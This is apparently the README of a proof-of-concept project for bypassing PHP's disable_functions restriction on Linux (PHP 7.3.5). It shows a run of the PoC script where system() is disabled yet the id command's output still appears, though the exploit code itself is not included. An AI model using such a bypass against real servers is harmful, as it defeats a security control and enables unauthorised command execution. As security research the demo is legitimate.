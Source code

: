 # php-bypass-disable-functions
Demo project how to bypass the disable_functions security control of PHP on Linux

Tested on PHP 7.3.5, x86_64 Linux

## how to use

```
regularuser@7981d86dd9aa:/$ ./php-7.3.5-vanilla/sapi/cli/php -d 'disable_functions=system' disfunpoc.php

Warning: system() has been disabled for security reasons in /repo-shared/disabled_functions/disfunpoc.php on line 2
uid=1000(regularuser) gid=1000(regularuser) groups=1000(regularuser)

```

